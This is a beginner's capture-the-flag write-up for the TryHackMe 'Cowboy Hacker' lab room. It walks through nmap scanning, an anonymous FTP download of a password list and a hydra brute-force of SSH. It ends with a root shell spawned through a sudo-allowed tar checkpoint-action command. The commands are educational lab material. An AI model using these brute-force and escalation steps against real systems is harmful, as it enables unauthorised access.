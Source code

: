 # Name = Cowboy Hacker
```bash
export IP=10.10.81.11
```

## TryHackMe [Room](https://tryhackme.com/room/cowboyhacker)

This room is described as easy room, and there's really nothing too hard for a begginner like me. First two questions are done, so we look for `#3`.

So we begin by scanning for open ports:
```bash
nmap -sC -sV -A -T4 -v -p- -oN scans/nmap.initial $IP
```

command    |result
-----------|----------
sudo       |run as root
sC         |run default scripts
sV         |enumerate versions
A          |aggressive mode
T4         |run a bit faster
p-         |scan all ports
v          |verbose scan (print results while scanning)
oN         |output to file with nmap formatting
scans/*    |direct output to my subfolder


It looks like there are only three open ports on the machine:

port      |service
----------|----------
21        |FTP
22        |SSH
80        |Web server

Let's go lowest ports first:

On the ftp server we find two files - task.txt and locks.txt. First one gives us answer to the `#3` question - *lin* and a potential username. Second looks like password list to bruteforce with.

Question `#4` has two answers, beacause we can try to bruteforce ftp server, but nothing comes out of it, so the answer is SSH:

```bash
hydra -l lin -P locks.txt ssh://$IP
```

command    |result
-----------|--------
hydra      |runs hydra tool
-l         |use specified login
-P         |use password list from file
ssh://     |target ssh port 22
$IP        |exported ip address

Remember th capital `P` when adding password list to hydra, or else You will be using only `locks.txt` string as a password!

After a second, the result of our action comes through:

[DATA] attacking ssh://10.10.81.11:22/
[22][ssh]  login: lin  password: Red*EDIT*at3

We've got answer to question `#5`, on to the next one:

That was easy! Now log in to the ssh and hunt for flags!
```bash
ssh lin@$IP
```
We're in, time to look for some standard files. 
User flag is usually hidden in `user.txt` file. To find it, we use `find` command:
```bash
find / -name "user.txt" 2>/dev/null
```
command    |result
-----------|--------
find       |search for files
/          |search everywhere
-name      |search for specific name
2>/dev/null|special operand to throw away errors

Oops! Should have just used the `ls` command, because the file we're looking for is in the current working directory!

`#6`User flag:
THM{CR*EDIT*T3}

Time to escalate things. We can use linpeas or another script for privilege escalation path discovery, but simply using `sudo -l` to list commands run as sudo reveals that our `lin` can use `tar` command as sudo.

Quick look at [GTFOBins](https://gtfobins.github.io/#) and search for `tar` bin shows us that we can use it to escalate things:
```
Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

    tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
so i used the command:
```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
and when i type `id` it shows we are root.

Root flag is usually hidden in root.txt file, so to find it we use our well known `find` command:
```bash
find / -name "root.txt" 2>/dev/null
```
and the path to file is /root/root.txt.
`Cat` out the file or `less` it, or `nano` it, whatever You do, don't forget to copy it to TryHackMe page, and that's it! We own the machine!
```
Root:
THM{80*EDIT*3r}
```
Hope You've learned something new today!